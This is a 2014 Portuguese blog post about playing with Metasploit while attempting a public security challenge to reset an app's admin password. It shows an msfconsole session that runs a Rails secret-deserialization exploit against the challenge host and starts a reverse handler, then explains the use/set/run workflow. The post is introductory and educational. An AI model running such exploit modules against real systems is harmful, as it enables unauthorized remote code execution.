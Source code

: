 ```yaml
---
title: "[Small Bite] Brincando com Metasploit"
date: "2014-08-27T17:03:00.000Z"
tags: ["security"]
years: "2014"
---
```


<p></p>
<p>Ontem o <a href="https://twitter.com/joernchen">@joernchen</a> mandou um pequeno <a href="https://twitter.com/joernchen/status/504304803045208064">desafio básico de segurança</a> pra comunidade. Ele postou um código de uma pequena aplicação, colocou ela no ar, e nos desafiou a resetar a senha do administrador.</p>
<p>Confesso que demorei mais do que gostaria mas no fim eu consegui - e foi simples (post sobre isso vem depois).</p>
<p>No caminho eu acabei explorando o <a href="http://www.metasploit.com">Metasploit</a>, provavelmente um dos melhores e mais conhecidos pacotes de testes de penetração de segurança. E alguns não sabem disso mas ele não só é código-aberto (existem ferramentas e serviços pagos) como é uma aplicação Rails! Então vale muito a pena acompanhar esse projeto.</p>
<p></p>
<p></p>
<p>O @joernchen já <a href="https://github.com/rapid7/metasploit-framework/commits?author=joernchen">contribuiu no código</a> do Metasploit incluindo o famigerado exploit para <a href="https://github.com/rapid7/metasploit-framework/commit/7f3eccd64453c3708ad4cb7ed7a6ea18354bac3d">Remote Code Execution no Rails</a> (calma, as versões novas já não tem mais isso!)</p>
<p>Instalar o Metasploit no seu sistema é simples. Este <a href="https://www.darkoperator.com/installing-metasploit-in-ubunt/">blog post</a> descreve como. Ele começa falando para baixar um script que faz tudo mas, se você usa RVM ou RBenv ou não usa Ubuntu, faça na mão, é mais simples. Não vou repetir o que já está no post então acompanhe lá.</p>
<p>No final, você deve ter o metasploit instalado e com o comando <tt>msfconsole</tt> a partir de onde já dá pra começar a brincar. Por exemplo, uma das coisas que eu tentei ver foi se o aplicativo do desafio sofria o problema de remote code execution que mencionei acima, pra isso, uma vez dentro do console eu fiz:</p>
<table class="CodeRay">
  <tbody>
    <tr>
      <td class="line-numbers" title="double click to toggle" ondblclick="with (this.firstChild.style) { display = (display == '') ? 'none' : '' }"><pre><a href="#n1" name="n1">1</a>
<a href="#n2" name="n2">2</a>
<a href="#n3" name="n3">3</a>
<a href="#n4" name="n4">4</a>
<a href="#n5" name="n5">5</a>
<a href="#n6" name="n6">6</a>
<a href="#n7" name="n7">7</a>
<a href="#n8" name="n8">8</a>
<a href="#n9" name="n9">9</a>
<strong><a href="#n10" name="n10">10</a></strong>
</pre>
      </td>
      <td class="code"><pre>msf exploit(rails_json_yaml_code_exec) &gt; use exploit/multi/http/rails_secret_deserialization
msf exploit(rails_secret_deserialization) &gt; set RHOST getthisadmin.herokuapp.com
msf exploit(rails_secret_deserialization) &gt; set TARGETURI /reset/_csrf_token
msf exploit(rails_secret_deserialization) &gt; run
[*] Started reverse handler on 192.168.47.172:4444
[*] Checking for cookie _csrf_token
[!] Caution: Cookie not found, maybe you need to adjust TARGETURI
[*] Trying to leverage default controller without cookie confirmation.
[*] Sending cookie _csrf_token
msf exploit(rails_secret_deserialization) &gt; exit
</pre>
      </td>
    </tr>
  </tbody>
</table>
<p>E podemos ver que o problema não é esse. No Metasploit você carrega um dos muitos módulos de exploit que quer explorar (veja <a href="https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/multi/http">lista no próprio código fonte</a>). Cada exploit tem várias opções pra configurar (execute <tt>show options</tt> para mostrar as configurações). Use o comando <tt>set</tt> para configurar com o site que quer explorar. Finalmente, rode com <tt>run</tt> para executar e ver se tem o exploit ou não.</p>
<p>Eu mesmo não sou um expert em segurança mas conheço o básico e explorar o Metasploit pode ser uma excelente fonte para você entender como funcionam exploits de segurança. O código de cada módulo é em Ruby e é muito fácil de ler.</p>
<p>E já descobriram o desafio do @joernchen? Neste post eu já dei uma grande dica ;-) Comentem se conseguiram, mas não dêem a resposta ainda pra todo mundo poder testar.</p>
<p></p>